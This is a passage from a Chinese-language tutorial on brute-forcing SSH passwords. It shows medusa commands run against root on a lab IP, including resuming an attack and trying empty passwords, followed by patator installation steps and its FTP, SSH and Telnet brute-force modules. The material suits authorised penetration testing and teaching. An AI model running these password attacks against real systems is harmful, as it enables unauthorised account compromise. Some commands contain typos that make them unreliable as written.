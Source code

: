 
（2）对单一服务器进行密码字典暴力破解

  如图5所示，破解成功后会显示success字样，具体命令如下：

```bash
medusa -M ssh -h 192.168.157.131 -u root -Pnewpass.txt
```

![5.png](https://image.3001.net/images/20180108/15153722909252.png!small)  

图5破解 SSH 口令成功

如果使用 `Cltrl + Z` 结束了破解过程，则还可以根据屏幕提示，在后面继续恢复破解，在上例中恢复破解，只需要在命令末尾增加 `-Z h1u1.`即可。也即其命令为：

```bash
medusa -M ssh -h192.168.157.131 -u root -P newpass.txt -Z h1u1.
```

**5.破解某个IP地址主机破解成功后立刻停止，并测试空密码以及与用户名一样的密码**

```bash
medusa -M ssh -h 192.168.157.131 -u root-P /root/newpass.txt -e ns -F
```

执行效果如图 6 所示，通过命令查看字典文件 `newpass.txt`，可以看到root密码位于第 8 行，而在破解结果中显示第一行就破解成功了，说明先执行了 `-e ns` 参数命令，对空密码和使用用户名作为密码来进行破解。

![6.png](https://image.3001.net/images/20180108/15153723107479.png!small)  

图6使用空密码和用户名作为密码进行破解

技巧：加 `-O  ssh.log` 可以将成功破解的记录记录到 `ssh.log` 文件中。

## 四、使用patator暴力破解SSH密码

### 1.下载并安装 `patator`

```bash
git clone https://github.com/lanjelot/patator.git
cd patator
python setup.py install
```

### 2.使用参数

执行 `./patator.py` 即可获取详细的帮助信息

```bash
Patator v0.7(https://github.com/lanjelot/patator)
Usage: patator.py module --help
```

可用模块:

- `+ftp_login`     : 暴力破解FTP

 -  `+ssh_login`     : 暴力破解 SSH

 - `+telnet_login`  : 暴力破解 Telnet
